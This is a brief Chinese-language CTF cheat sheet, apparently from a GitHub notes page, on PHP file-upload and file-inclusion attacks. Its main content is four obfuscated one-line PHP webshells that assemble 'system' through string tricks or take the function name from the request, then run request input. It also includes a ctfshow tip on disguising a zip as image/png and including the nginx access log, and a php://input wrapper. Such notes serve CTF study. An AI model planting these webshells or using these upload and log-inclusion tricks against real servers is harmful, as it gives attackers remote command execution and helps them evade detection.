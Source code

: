 ## 常见MIME类型

* `zip`
    
    Content-Type: application/x-zip-compressed

## 骚操作写马
>https://yn8rt.blog.csdn.net/article/details/119425905

>通过对特定组合字符进行操作来拼接出一句话

* 111

```php
$a="s#y#s#t#e#m";
$b=explode("#",$a);
$c=$b[0].$b[1].$b[2].$b[3].$b[4].$b[5].$b[6];
$c($_REQUEST[1]);

```

* 222
```php
$a=substr("1s",1).'ystem';
$a($_REQUEST[1]);
```

* 333
```php
$a=strrev('metsys');
$a($_REQUEST[1]);

```

* 444
```php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);

```

## 小技巧

* 传文件

    >ctfshow 169
    传zip改content-type为image/png，然后利用日志包含auto_append_file=/var/log/nginx/access.log

# 文件包含
>常用来写入shell、命令执行
## 常用伪协议
>https://www.php.net/manual/zh/wrappers.data.php
* `php://input`

